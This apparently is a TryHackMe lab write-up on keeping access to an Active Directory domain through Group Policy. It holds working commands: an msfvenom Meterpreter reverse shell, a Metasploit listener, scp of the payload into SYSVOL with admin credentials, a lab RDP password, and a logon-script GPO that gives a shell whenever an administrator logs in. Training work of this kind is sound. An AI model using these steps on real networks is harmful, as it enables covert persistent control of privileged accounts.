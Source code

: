 Persistence through Group Policy Objects (GPOs)

We will first use msfvenom to create a shell:

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > radupopa_shell.exe
```

Also on the attacking machine, create a script called `radupopa_script.bat` (replace radupopa with your own username):

```bash
copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\radupopa_shell.exe C:\tmp\radupopa_shell.exe && timeout /t 20 && C:\tmp\radupopa_shell.exe
```

Still on the attacking machine, use SCP with the Administrator credentials to copy both scripts to the `SYSVOL` directory:

```bash
$ scp radupopa_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
$ scp radupopa_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

The final step is to start a listener using metasploit:

```bash
$ msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit"
```

With everything in place, we can create the GPO that will execute it. To do this, we need to RDP into `THMWRK` and use a runas window running as the administrator for the next steps:

```bash
$ xfreerdp /v:10.200.61.248 /u:christine.hall /p:Randall1973
# christine.hall is my low privilege access user
```

```powershell
> runas /netonly /user:thmchilddc.tryhackme.loc\Administrator cmd.exe
# provide the administrator password
```

In this newly spawned `cmd`, we will start `MMC`.

In MMC, we will click on `File` -> `Add/Remove Snap-in` then select the `Group Policy Management` snap-in and click `Add`, followed by clicking `OK`.

In this GPO manager window, we will write a GPO that will be applied to all Admins. Right click on the Admins OU and select `Create a GPO in this domain, and Link it here`. I will name my GPO `radupopa - persisting GPO`.

On this newly created policy, right-click it and select `Enforced`.

Back into the Group Policy Management Editor:

* Under `User Configuration`, expand `Policies -> Windows Settings`
* Select `Scripts (Logon/Logoff)`
* Right-click on Logon -> Properties
* Select the `Scripts` tab
* Click `Add` -> `Browse

We can navigate to where our batch and binary files were, and we will select the `radupopa_script.bat` and click `Open` and `OK`, followed by clicking `Apply` and `OK`. This enables us to get a shell every time on ef the administrators (tier 2, 1 and 0) log into any machine.